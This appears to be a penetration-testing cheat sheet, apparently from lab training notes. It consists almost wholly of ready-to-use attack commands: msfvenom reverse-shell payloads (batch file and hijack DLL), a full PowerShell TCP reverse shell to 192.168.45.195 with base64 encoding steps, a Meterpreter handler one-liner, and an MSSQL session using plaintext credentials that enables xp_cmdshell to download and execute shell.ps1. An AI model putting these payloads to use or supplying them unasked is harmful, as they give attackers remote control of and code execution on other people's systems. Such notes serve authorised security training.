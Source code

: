 ### Payloads
```bash
# Remember Windows Server is always x64
# List payload options
msfvenom -p windows/x64/shell_reverse_tcp --list-options
# Bat
msfvenom -p cmd/windows/reverse_powershell LHOST=192.168.45.162 LPORT=443 > shell.bat
# DLL Hijacking
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.50.111 LPORT=443 -f dll -o hijackme.dll
# Generate base64 encoded PowerShell reverse one-liner ("-w 0" ensures single line)
echo "powershell -nop -ep bypass -e `echo -n '$client = New-Object System.Net.Sockets.TCPClient("192.168.45.195",443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()' | iconv -f UTF-8 -t UTF-16LE | base64 -w 0`"
```

Custom PowerShell base64 encoded payload:
```PowerShell
echo -n '$client = New-Object System.Net.Sockets.TCPClient("192.168.45.195",443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()' | iconv -f UTF-8 -t UTF-16LE | base64 -w 0
```

Custom PowerShell base64 encoded payload:
```PowerShell
pwsh
$Text = '$client = New-Object System.Net.Sockets.TCPClient("192.168.45.195",443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()'
$Bytes = [System.Text.Encoding]::Unicode.GetBytes($Text)
$EncodedText =[Convert]::ToBase64String($Bytes)
$EncodedText
```

```bash
# Handler / Meterpreter one-liner
msfconsole -x "use exploit/multi/handler;set payload windows/meterpreter/reverse_tcp;set LHOST 192.168.45.162;set LPORT 443;run;"
```

---
### MSSQL (Microsoft SQL Server)
```sql
# Connect to MSSQL with Windows creds (port 1433)
impacket-mssqlclient Administrator:Lab123@192.168.170.18 -windows-auth

SQL> SELECT SYSTEM_USER;
SQL> EXEC xp_cmdshell 'whoami';
SQL> EXEC xp_cmdshell 'powershell -c "IEX(New-Object Net.WebClient).DownloadString(''http://192.168.45.195/shell.ps1'')"';

# Enable xp_cmdshell
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;

SELECT name FROM sys.databases; # Lists all databases on the server
```

[CLIENTWK220]: PS C:\Users\daveadmin\Documents> whoami